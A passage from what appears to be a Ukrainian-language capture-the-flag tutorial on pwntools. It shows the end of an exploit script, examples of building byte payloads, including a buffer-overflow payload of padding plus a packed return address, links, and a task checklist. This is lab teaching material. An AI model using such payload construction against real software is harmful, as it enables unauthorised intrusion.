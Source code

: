 ```python

    # Результат
    result = io.recvline()
    log.success(f"Result: {result.decode()}")

    io.close()
    return result

if __name__ == '__main__':
    exploit()
```

### Конвертація hex в байти

```python
# Hex string → bytes
payload = bytes.fromhex('414243')  # → b'ABC'

# Integer → bytes (64-bit)
payload = p64(0x401136)

# Комбінація
payload = b'A' * 72 + p64(0x401136) + bytes.fromhex('909090')
```

## 🔗 Корисні посилання

- [pwntools документація](https://docs.pwntools.com/)
- [pwntools GitHub](https://github.com/Gallopsled/pwntools)
- [pwntools tutorial](https://github.com/Gallopsled/pwntools-tutorial)
- [CTF-wiki pwntools](https://ctf-wiki.org/pwn/linux/user-mode/mitigation/canary/)

## ✅ Чеклист виконання

- [ ] Встановлено pwntools (`pip3 install pwntools`)
- [ ] Зібрано сервер через `build.sh`
- [ ] Створено базовий exploit скрипт
- [ ] Запущено скрипт і отримано прапор
- [ ] Спробовано різні рівні логування
- [ ] Додано обробку помилок
- [ ] Зрозуміло переваги pwntools над netcat
- [ ] Знаю основні функції: remote, send, recv, p64, u64
- [ ] Готовий до Stage 04!

---

**Час виконання:** 10-15 хвилин
**Складність:** ⭐☆☆☆☆ (Тривіальна)
**Категорія:** PWN / Automation
**Залежності:** Python 3, pwntools
